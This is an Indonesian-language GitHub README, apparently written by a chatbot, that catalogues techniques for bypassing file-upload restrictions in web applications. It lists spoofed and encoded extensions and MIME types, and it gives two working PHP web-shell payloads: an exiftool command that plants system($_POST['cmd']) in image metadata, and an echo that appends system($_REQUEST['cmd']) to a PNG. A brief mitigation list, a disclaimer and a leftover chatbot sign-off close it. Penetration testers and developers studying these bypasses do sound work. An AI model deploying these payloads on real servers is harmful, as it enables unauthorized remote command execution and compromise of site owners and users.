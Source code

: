 # 📂 Unrestricted File Upload Bypass Techniques

![License](https://img.shields.io/badge/license-Educational-blue)
![Status](https://img.shields.io/badge/status-Active-brightgreen)
![Security](https://img.shields.io/badge/security-awareness-important)

> 📖 **Dokumen ini menjelaskan berbagai teknik umum yang digunakan untuk bypass pembatasan unggah file pada aplikasi web.**
> Ditujukan untuk **peneliti keamanan**, **penetration tester**, dan **developer** dalam mengidentifikasi potensi celah dan membangun mitigasi yang tepat.

---

## 📖 Daftar Isi

* [Deskripsi](#deskripsi)
* [Tabel Summary Bypass](#📊-tabel-summary-bypass)
* [Bypass Ekstensi File Umum](#bypass-ekstensi-file-umum)
* [Bypass Magic Number](#📌-teknik-bypass-magic-number)
* [Bypass Tipe MIME](#bypass-tipe-mime)
* [Teknik Unggah File Tanpa Batasan](#teknik-unggah-file-tanpa-batasan)
* [Rekomendasi Mitigasi](#📌-rekomendasi-mitigasi)
* [Lisensi](#📑-lisensi)
* [Kontak](#📬-kontak)

---

## Deskripsi

Serangan unrestricted file upload memungkinkan penyerang mengunggah file berbahaya ke server karena validasi yang lemah. Teknik di dokumen ini memanfaatkan celah pada:

* Validasi ekstensi file
* Pemeriksaan MIME type
* Pemeriksaan magic number file
* Sanitasi nama file yang buruk

---

## 📊 Tabel Summary Bypass

| Teknik                     | Contoh Ekstensi / Metode             | Tujuan                               |
| :------------------------- | :----------------------------------- | :----------------------------------- |
| **Bypass Ekstensi**        | `.php`, `.php5`, `.php.jpg`          | Menipu validasi ekstensi             |
| **Magic Number Injection** | Inject PHP code via `Exiftool`       | Menyisipkan shell di metadata gambar |
| **MIME Type Bypass**       | `application/x-httpd-php`            | Mengakali pengecekan tipe konten     |
| **Encoded Extension**      | `.php%00`, `.php%20`, `.php%0a`      | Menyembunyikan ekstensi asli         |
| **Double/Mixed Extension** | `.png.php`, `.jpg.pHp5`, `.php#.png` | Menyiasati pemeriksaan nama file     |

---

## Bypass Ekstensi File Umum

Beberapa ekstensi yang umum digunakan untuk bypass:

```
.php, .php5, .phtml, .pgif, .phar, .cgi, .pl, .py, .Php, .php.jpg, .php.bak, .exe
```

**Variasi:**

* `.php56`, `.php.test`, `.php.docx`, `.php.unknown`
* `.php.xxxjpg`, `.php.xxxpdf`, `.php.xxxzip`

---

## 📌 Teknik Bypass Magic Number

### 📌 Inject Metadata via Exiftool

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

---

### 📌 Append PHP Code ke File Gambar

```bash
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

---

## Bypass Tipe MIME

Bypass validasi dengan tipe MIME:

```
application/x-httpd-php
```

---

## Teknik Unggah File Tanpa Batasan

### 📌 Encoded Extension

```
.php%00, .php%20, .php%0a, .php/, .php....
```

### 📌 Double / Mixed Extension

```
.png.php, .php#.png, .php%00.png, .png.jpg.php
```

---

## 📌 Rekomendasi Mitigasi

✅ Validasi **whitelist ekstensi file**

✅ Pemeriksaan **MIME type di server**

✅ Verifikasi **magic number file**

✅ Sanitasi nama file dari karakter spesial

✅ Simpan file **di luar web root**

✅ Atur **file permission non-eksekusi**

✅ Batasi ukuran & scan isi file

---

## 📑 Lisensi

Distribusi untuk tujuan edukasi & keamanan siber.
**Gunakan dengan tanggung jawab.**

---

## 📬 Kontak

📧 **[sinzoxp@gmail.com](mailto:sinzoxp@gmail.com)**
📱 Telegram: [@avxxr00t](https://t.me/avxxr00t)

---

## 📌 Note Tambahan

🚨 **Disclaimer:**
Gunakan teknik ini hanya untuk **penetration testing legal** atau riset di lingkungan yang Anda miliki izin penuh.

---

## 📎 Preview Markdown

Jika ingin langsung dipasang ke repository GitHub, tinggal simpan dengan nama `README.md`.

---

Kalau mau sekalian kubuatin versi markdown file-nya (.md) siap download juga, tinggal beri tahu aja bro! Mau? 🚀🔥
